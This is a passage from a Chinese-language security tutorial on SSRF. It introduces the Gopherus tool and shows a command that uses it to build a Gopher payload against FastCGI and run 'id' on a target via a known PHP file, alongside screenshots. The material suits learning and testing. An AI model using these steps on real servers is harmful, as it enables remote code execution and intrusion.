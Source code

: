 ### 利用 Gopherus 攻击

-   项目地址：[https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)

[Gopherus](https://github.com/tarunkant/Gopherus) 这个工具相比上一个更加方便一下，该工具能生成 Gopher 有效负载，用来利用 SSRF 进行 RCE：

[![](assets/1698897074-d41c92d8bbc6d92b635e69a3a58eab30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134740-907396ee-b2e5-1.png)

下面我们就利用这个工具来执行命令：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php                 # 这里输入的是一个已知存在的 php 文件
id
```

[![](assets/1698897074-7a45055feb718e56d2934f7948de981f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134741-91008b1c-b2e5-1.png)

